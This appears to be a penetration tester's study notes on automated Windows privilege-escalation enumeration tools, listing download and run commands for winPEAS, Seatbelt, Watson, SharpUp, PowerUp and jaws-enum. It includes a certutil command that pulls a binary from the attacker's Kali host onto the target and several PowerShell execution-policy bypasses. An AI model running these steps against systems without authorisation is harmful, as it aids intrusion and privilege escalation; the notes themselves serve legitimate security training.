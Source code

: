 
| EXE's | PowerShell | Other |
| --- | --- | --- | 
| winPEAS.exe | Sherlock.ps1 | windows-exploit-suggester.py (Local) |
| Seatbelt.exe | PowerUp.ps1 | Exploit Suggester (Metasploit) |
| Watson.exe | jaws-enum.ps1 |
| SharpUp.exe | 


[[99.__Links (WINDOWS)#Exploring Automated Tools]]


#### winPEAS.exe
```bash - kali
git clone https://github.com/carlospolop/PEASS-ng
```

```bash - kali
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASbat/winPEAS.bat
```

```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F253%2Fmerge/winPEASx64.exe
```

```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F253%2Fmerge/winPEASx86.exe
```

```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F253%2Fmerge/winPEASany.exe
```

[[Python#Server]]

```command prompt - windows
certutil -urlcache -split -f http://$KALI/winPEASx64.exe
```

Before running, we need to add a registry key and then reopen the command prompt:

```command prompt - windows
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

Run all checks while avoiding time-consuming searches:

```command prompt - windows
.\winPEASx64.exe quiet cmdfast > winpeas.txt
```

Run specific check categories:

```command prompt - windows
.\winPEASx64.exe quiet cmdsysteminfo
```

[[4._File Transfers]]

#### Seatbelt.exe

https://github.com/carlospolop/winPE/tree/master/binaries/seatbelt

```powershell - windows
.\Seatbelt.exe all > Seatbelt.txt
```

To run specific check(s):
```powershell - windows
.\Seatbelt.exe<check> <check>
```

#### Watson.exe
HOW TO USE WATSON: https://vk9-sec.com/watson-find-missing-windows-patches-for-local-privilege-escalation/

```command prompt - windows
watson.exe
```

#### SharpUp.exe

HOW TO USE SHARPUP: https://medium.com/@markmotig/quick-intro-to-building-and-running-sharpup-alternative-to-powerup-ps1-d114d66e9a75

```powershell - windows
.\SharpUp.exe
```

#### Sherlock.ps1

#### PowerUp.ps1
```powershell - windows
powershell -ep bypass
```

```powershell - windows
. .\PowerUp.ps1
```

```powershell - windows
Invoke-AllChecks
```

#### jaws-enum.ps1

```powershell - windows
powershell -ep bypass
```

```powershell - windows
.\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
```

